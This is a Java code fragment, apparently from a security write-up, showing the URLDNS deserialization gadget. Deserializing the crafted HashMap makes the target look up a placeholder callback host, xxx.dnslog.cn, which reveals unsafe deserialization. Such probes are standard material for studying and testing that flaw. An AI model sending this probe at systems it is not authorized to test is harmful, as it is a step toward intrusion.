 ```java
        HashMap hashMap = new HashMap();
        URL u = new URL("http://xxx.dnslog.cn");
        hashMap.put(u, "test");

        Field field = URL.class.getDeclaredField("hashCode");
        field.setAccessible(true);
        field.set(u, -1);

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(hashMap);
        oos.close();

        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(baos.toByteArray()));
        ois.readObject();

    }
}

```
